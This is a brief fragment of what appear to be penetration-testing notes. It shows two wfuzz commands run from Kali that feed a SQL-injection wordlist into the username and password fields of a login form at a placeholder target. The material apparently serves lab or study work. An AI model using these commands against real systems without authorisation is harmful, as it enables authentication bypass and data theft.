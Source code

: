 ```bash - kali
wfuzz -c -w /usr/share/wordlists/wfuzz/Injections/SQL.txt -d “username=FUZZ&password=FUZZ” -u $TARGET
```

```bash - kali
wfuzz -c -w /usr/share/wordlists/wfuzz/Injections/SQL.txt -d “username=admin&password=FUZZ” -u $TARGET
```

[[SQLText]]

